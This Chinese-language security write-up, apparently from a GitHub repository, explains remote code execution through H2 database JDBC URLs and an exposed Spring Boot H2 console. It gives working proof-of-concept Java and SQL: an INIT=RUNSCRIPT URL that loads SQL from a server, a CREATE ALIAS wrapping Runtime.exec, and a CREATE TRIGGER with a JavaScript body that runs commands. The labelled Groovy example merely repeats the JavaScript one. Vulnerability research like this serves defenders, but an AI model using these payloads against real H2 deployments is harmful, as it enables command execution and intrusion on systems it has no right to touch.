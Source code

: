 # H2-RCE

<center>@Y4tacker</center>

首先在SpirngBoot当中如果开启了也可以通过网页直接实现rce，当然需要开启参数

```xml
spring.h2.console.enable=true
spring.h2.console.setting.web-allow-others=true
```

![](img/1.png)

接下来分别介绍三种

## 通过加载执行远程sql

在org.h2.engine.Engine#openSession(org.h2.engine.ConnectionInfo)中,h2引擎将 "INIT "参数分割开来，并使用CommandInterface的不同实现类来初始化数据库连接，这取决于配置。

![](img/2.png)

通过使用RUNSCRIPT命令，h2最终会调用org.h2.command.dml.RunScriptCommand#execute来执行邪恶的sql。

![](img/3.png)

```java
Class.forName("org.h2.Driver");
String connectionUrl = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'";
Connection connection = DriverManager.getConnection(connectionUrl);
connection.close();
```

Poc.sql

```java
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "y4tacker";}';CALL EXEC ('open -a Calculator.app')
```

那么为什么我们使用 "RUNSCRIPT "命令？因为我们使用的POC需要执行两条SQL语句，第一条是CREATE ALIAS，第二条是EXEC，这是一个两步的动作。然而session.prepareCommand不支持多条SQL语句的执行，所以我们使用RUNSCRIPT来从远程服务器加载SQL。

![](img/4.png)

## 配合Groovy

在org.h2.util.SourceCompiler#getClass中，h2使用isGroovySource来确定它是否是groovy源代码![](img/5.png)



```java
private static boolean isGroovySource(String var0) {
  return var0.startsWith("//groovy") || var0.startsWith("@groovy");
}
```

但是也不是每个项目都有Groovy

```java
	public static void main(String[] args) throws Exception {
		Class.forName("org.h2.Driver");

		String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
				"INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
				"java.lang.Runtime.getRuntime().exec('open -na Calculator')\n" +
				"$$\n";
		Connection conn = DriverManager.getConnection(url);
		conn.close();
	}
```



## 无其他依赖通过Javascript

```
	public static void main(String[] args) throws Exception {
		Class.forName("org.h2.Driver");

		String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
				"INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
				"java.lang.Runtime.getRuntime().exec('open -na Calculator')\n" +
				"$$\n";		Connection conn = DriverManager.getConnection(url);
		conn.close();
	}
```

但是也是似乎有版本限制，我测试这是最低的限制

```
<dependency>
<groupId>com.h2database</groupId>
<artifactId>h2</artifactId>
<version>1.4.196</version>
</dependency>
```



## 关于报错

关于H2 数据库报错 Database "XXX" not found, and IFEXISTS=true, so we cant auto-create it [90146] 的解决办法

可以在[spring boot - Database not found, and IFEXISTS=true, so we cant auto-create it - Stack Overflow](https://stackoverflow.com/questions/55349373/database-not-found-and-ifexists-true-so-we-cant-auto-create-it)找到答案

Use a pre-2019 version of the `H2` database dependency that auto-creates the database every time you run your standalone application. For example version `1.4.193`. Your `pom.xml` should include this dependency:

```
<dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <version>1.4.193</version>
</dependency>
```

